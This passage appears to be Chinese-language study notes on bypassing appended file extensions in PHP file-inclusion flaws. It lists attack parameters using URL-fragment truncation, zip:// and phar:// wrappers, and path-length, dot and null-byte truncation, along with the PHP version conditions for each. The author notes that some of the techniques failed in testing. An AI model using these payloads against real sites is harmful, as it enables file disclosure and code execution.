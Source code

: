 #### fragment(#)
```
[访问参数]   ?file=http://localhost:8088/phpinfo.php%23
[拼接后]     ?file=http://localhost:8088/phpinfo.php#.php

利用url中，#后面会被作为锚点来解析，文件名称就变为我们想要的

注意GET请求中#要经过URL编码
```

### 利用协议
利用`zip://`和`phar://`，由于整个压缩包都是我们的可控参数，那么只需要知道他们的后缀，便可以自己构建。

#### zip://
```
[访问参数]   ?file=zip://D:\zip.jpg%23phpinfo
[拼接后]     ?file=zip://D:\zip.jpg#phpinfo.php
```

#### phar://
```
[访问参数]   ?file=phar://zip.zip/phpinfo
[拼接后]     ?file=phar://zip.zip/phpinfo.php
```

### 长度截断
利用目录字符串在系统中如果达到了最大值，会将之后的字符丢弃。
**利用条件**
 - `php<5.2.8`
 - linux下字符长度>`4096`
 - window下字符长度>`256`

```
?file=../phpinfo.php/././././././.[…]/./././././.
```

**自己没成功，记录待解决**
php版本5.2.17，会出现warning报错

### 点号截断
**利用条件**
 - `php<5.2.8`
 - window环境下，并且字符长度>`256`
```
?file=../phpinfo.php/........[…]............
```
**也没成功**

### 0字节截断
>PHP内核是由C语言实现的，因此使用了C语言中的一些字符串处理函数。在连接字符串时，0字节(x00)将作为字符串的结束符。

**利用条件**
 - `magic_quotes_gpc=Off`
 - `php<5.3.4`
